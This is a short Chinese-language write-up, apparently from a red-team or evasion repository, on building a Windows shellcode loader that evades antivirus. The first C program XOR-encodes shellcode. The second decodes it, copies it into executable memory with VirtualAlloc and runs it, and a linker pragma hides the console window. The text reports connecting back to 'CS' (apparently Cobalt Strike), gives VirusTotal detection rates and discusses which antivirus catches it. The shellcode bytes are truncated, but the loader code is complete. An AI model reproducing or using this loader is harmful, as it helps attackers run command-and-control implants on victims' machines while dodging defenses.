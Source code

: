 使用VS2019编译如下C代码  
对shellcode进行异或编码，修改变量a的值即修改shellcode
```
#include <stdio.h>

unsigned char buf[] = "\xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00...";

int a = 1;
int b = sizeof(buf);
unsigned char str[891] = { 0 };

int main() {

    printf("char array length=%d\n", b);
    printf("\n");

    for (int i = 0; i < b; i++) {
        str[i] = buf[i] ^ a;
    }

    for (int i = 0; i < b; i++) {
        printf("\\x%x", str[i]);
    }
    
    return 0;
}
```
拷贝上述输出的shellcode到下述代码的字符数组中
```
#pragma comment(linker, "/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

#include <stdio.h>
#include <windows.h>
unsigned char buf[] = "\xfa\xee\x8f\x6\x6\x6\x66\x8f...";

int main() {
    for (int i = 0; i < sizeof(buf); i++) {
        _InterlockedXor8((volatile char*)buf + i, 6);
    }
    char* old = (char*)VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    memcpy(old, buf, sizeof(buf));
    ((void(*)())old)();
    return 0;
}
```
编译后会被Windows Defender查杀，关闭Windows Defender，能成功连接到CS

在VirusTotal上的检出率是29/67，如下图  
![image](./pic/0.png)  
提示360不能检测出来，如下图  
![image](./pic/1.png)  
但实际在一台物理机上测试发现，是能被检测的，如下图  
![image](./pic/2.png)  
![image](./pic/3.png)
